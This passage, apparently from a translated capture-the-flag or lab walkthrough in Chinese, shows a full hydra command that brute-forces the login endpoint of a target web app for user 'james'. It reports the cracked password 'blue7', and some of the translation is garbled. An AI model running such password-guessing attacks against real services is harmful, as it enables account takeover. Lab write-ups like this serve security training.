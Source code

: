 上图向我们展示了登录请求是如何进行的。

它正在向“/api/user/login”端点发送 json 格式的数据，好的，让我们使用 hydra 强制执行此操作

现在，为了方便起见，这个端点也接受表单格式的数据，所以我们不需要发送 json 格式的数据，我们可以简单地使用应用程序表单格式

运行以下命令

`hydra -l james -P wordlist.txt [machine-ip] http-post-form '/api/user/login:username=^USER^&pass=^PASS^:F="Invalid username or password"`

![](img/d724c3493759ad299bd04ea859f879b6.png)

耶！！！我们获得了“james”的密码“blue7 ”,现在我们将使用这些凭据登录 web 应用程序

所以在伐木之后，我们得到

![](img/22a7136968ba977be035e7a9d2e8c0c6.png)